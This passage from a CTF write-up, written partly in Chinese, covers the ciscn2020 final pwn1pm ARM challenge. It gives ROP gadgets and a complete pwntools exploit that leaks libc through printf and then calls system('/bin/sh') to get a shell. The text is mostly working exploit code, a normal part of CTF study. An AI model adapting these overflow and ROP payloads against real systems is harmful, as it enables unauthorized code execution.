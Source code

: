 ```python
    io.interactive()

argc = len(sys.argv)
if argc == 1:
    io = process(localfile)
else:
    if argc == 2:
        host, port = sys.argv[1].split(":")
    elif argc == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    io = remote(host, port)

elf = ELF(localfile)
# libc = ELF(locallibc)
exp()

```

### ciscn2020 final pwn1pm

主要使用了以下两个gadget，控制函数第一个参数。调用printf泄露libc地址，然后`system("bin/sh")`

```
0x00010348 : pop {r3, pc}
0x000104f8 : mov r0, r3 ; sub sp, fp, #4 ; pop {fp, pc}
```

同一个shell进程本地运行多次可以发现，程序库加载地址和栈地址不会发生变化，但是在另一个shell进程就可能有变化。幸运的是，地址似乎只有两种变化，非此即彼。

因为`sub sp, fp, #4`，这里假定了服务器端的栈地址和本地一致，实际不确定。。。

[exp](https://github.com/lc1838228782/ctf_wps/blob/10c96609740f1c6fadd9ac88a642c1fd0e3eb3d5/others/armpwn/ciscn2020_final_pwn1pm/exp.py)

```python
#!/usr/bin/env python3

from pwn import *

context(os="linux", arch="amd64", log_level="debug")
localfile = "./bin"
locallibc = "./libc.so.6"
pf      = lambda name,num           :log.info(name + ": 0x%x" % num)
g       = lambda x                  :next(libc.search(asm(x)))

"""
0x00010348 : pop {r3, pc}
0x000104f8 : mov r0, r3 ; sub sp, fp, #4 ; pop {fp, pc}
"""
def exp():
    payload = b"A"*0x100 + p32(0xfffeeffc) + p32(0x10348) + p32(elf.got["read"]) + p32(0x104f8) + p32(elf.plt["printf"])*2 + p32(elf.sym["main"])*8

    io.recvuntil("input: ")
    io.send(payload)

    read_addr = u32(io.recv(4))
    libc.address = read_addr - libc.sym["read"]

    payload = b"A"*0x100 + p32(0xfffef024) + p32(0x10348) + p32(next(libc.search(b"/bin/sh"))) + p32(0x104f8) + p32(libc.sym["system"])*2
    io.recvuntil("input: ")
    io.send(payload)

    io.interactive()
```